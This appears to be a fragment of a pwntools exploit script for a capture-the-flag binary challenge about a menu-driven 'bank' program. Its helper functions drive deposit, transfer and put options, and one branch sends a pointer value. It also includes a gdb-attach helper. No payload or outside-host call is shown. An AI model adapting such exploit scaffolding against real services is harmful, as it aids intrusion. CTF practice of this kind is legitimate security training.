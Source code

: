 ```python

def info() -> Tuple[bytes, bytes]:
    menu(6)
    sh.recvuntil(b"[Card Number]: ")
    dest = sh.recvuntil(b'\n', drop=True)
    sh.recvuntil(b"[Money]: ")
    money = sh.recvuntil(b'\n', drop=True)
    return dest, money


def deposit(money: Money):
    menu(2)
    sh.sendlineafter(b"How Much? ", to_bytes(money))


def transfer(who: Literal['admin', 'hacker', 'guest', 'ghost', 'abyss'], money: Money, *arg) -> Union[None, bytes]:

    def admin() -> bytes:
        sh.recvuntil(b"I think ")
        return sh.recvuntil(b' is', drop=True)

    def hacker(ptr: Money):
        sh.sendlineafter(b"hacker: Great!", to_bytes(ptr))

    def guest(content: AnyStr, is_line: bool = True):
        if is_line:
            sh.sendlineafter(b"data: ", to_bytes(content))
        else:
            sh.sendafter(b"data: ", to_bytes(content))

    def ghost(size_: Money):
        sh.sendlineafter(b":)", to_bytes(size_))

    def abyss(content: AnyStr):
        sh.sendline(to_bytes(content))
    menu(3)
    sh.sendlineafter(b"who?", who.encode())
    sh.sendlineafter(b"How much?", to_bytes(money))
    return locals().get(who)(*arg)


def put(money: Money):
    menu(4)
    sh.sendlineafter(b"How Much?", to_bytes(money))


def gdb_(times: int = None, arg: str = ''):
    gdb.attach(sh, arg)
    pause(times)

```
